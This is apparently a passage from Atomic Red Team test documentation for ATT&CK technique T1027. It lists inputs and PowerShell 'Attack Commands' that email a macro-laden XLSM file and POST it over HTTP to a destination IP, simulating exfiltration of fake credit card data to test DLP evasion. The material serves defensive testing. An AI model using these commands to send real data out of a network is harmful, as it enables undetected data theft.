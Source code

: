 


#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path of the XLSM file | path | PathToAtomicsFolder&#92;T1027&#92;src&#92;T1027-cc-macro.xlsm|
| sender | sender email | string | test@corp.com|
| receiver | receiver email | string | test@corp.com|
| smtp_server | SMTP Server IP Address | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
Send-MailMessage -From #{sender} -To #{receiver} -Subject 'T1027_Atomic_Test' -Attachments #{input_file} -SmtpServer #{smtp_server}
```






<br/>
<br/>

## Atomic Test #6 - DLP Evasion via Sensitive Data in VBA Macro over HTTP

auto_generated_guid: e2d85e66-cb66-4ed7-93b1-833fc56c9319

Upon successful execution, an excel containing VBA Macro containing sensitive data will be sent outside the network using HTTP.
Sensitive data includes about around 20 odd simulated credit card numbers that passes the LUHN check.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path of the XLSM file | path | PathToAtomicsFolder&#92;T1027&#92;src&#92;T1027-cc-macro.xlsm|
| ip_address | Destination IP address | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest -Uri #{ip_address} -Method POST -Body #{input_file}
```






<br/>
